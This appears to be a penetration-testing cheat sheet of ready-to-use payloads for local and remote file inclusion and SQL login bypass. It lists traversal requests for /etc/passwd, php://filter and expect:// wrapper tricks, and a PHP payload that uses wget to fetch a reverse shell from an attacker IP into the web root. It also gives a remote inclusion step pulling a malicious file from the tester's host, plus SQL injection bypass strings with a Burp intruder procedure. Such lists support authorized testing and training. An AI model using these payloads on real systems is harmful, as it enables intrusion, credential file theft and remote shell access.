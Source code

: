 ### LFI/RFI

```
fimap -u "http://INSERTIPADDRESS/example.php?test="
http://kaoticcreations.blogspot.com/2011/08/automated-lfirfi-scanning-exploiting.html

# Checks
http://INSERTIPADDRESS/gallery.php?page=/etc/passwd
http://INSERTIPADDRESS/gallery.php?page=/etc/passwd%00

http://INSERTIPADDRESS/gallery.php?page=../../../../../../etc/passwd
http://INSERTIPADDRESS/gallery.php?page=../../../../../../etc/passwd%00

http://INSERTIPADDRESS/gallery.php?page=expect://ls
*If you get a warning include() error it is not affected
Else for shell:
POST this with tamper data to http://INSERTIPADDRESS/gallery.php?page=expect://ls
<? system('wget http://10.11.0.150/php-reverse-shell.php -O /var/www/shell.php');?>
Then navigate to
http://INSERTIPADDRESS/shell.php

# Bypass execution
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
base64 -d output of above

# Remote File Inclusion
python -m SimpleHTTPServer 80
http://INSERTIPADDRESS/page=http://MYIPADDRESS/maliciousfile.php%00
http://INSERTIPADDRESS/page=http://MYIPADDRESS/maliciousfile.php
```

### Sql-login-bypass

```
# Login Bypass Checks
Username/Password: 
1' or '1'='1 
1' or 1=1 LIMIT 1;# 
'or 1=1/*
'or '1'='1' --
'or '1'='1' ({
'or '1'='1' /*

# Automated
- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation
```
